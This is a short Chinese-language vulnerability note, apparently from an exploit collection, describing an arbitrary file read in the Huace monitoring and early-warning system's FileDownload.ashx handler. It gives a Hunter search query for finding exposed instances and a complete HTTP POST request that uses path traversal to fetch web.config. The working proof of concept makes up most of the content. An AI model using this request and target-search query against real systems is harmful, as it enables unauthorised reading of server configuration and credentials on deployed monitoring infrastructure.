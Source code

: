 # 华测监测预警系统任意文件读取漏洞

# 一、漏洞简介
华测监测预警系统`FileDownload.ashx`存在任意文件读取漏洞。

# 二、影响版本
+ 华测监测预警系统

# 三、资产测绘
+ hunter`app.name="华测监测预警系统"`
+ 登录页面

![1693923282566-a270faa1-3ae7-4bcd-9795-dba9dbe4ae6d.png](./img/WAOjDbmD35pXUcus/1693923282566-a270faa1-3ae7-4bcd-9795-dba9dbe4ae6d-950460.png)

# 四、漏洞复现
```plain
POST /Handler/FileDownLoad.ashx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=xp2shqaformcuin4cdxhm3ws
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

filename=1&filepath=..%2F..%2Fweb.config
```

![1693923344252-dbf6f445-b43a-4d97-b79b-f4755c3d42a3.png](./img/WAOjDbmD35pXUcus/1693923344252-dbf6f445-b43a-4d97-b79b-f4755c3d42a3-713801.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rcvtzuhecd5rgas8>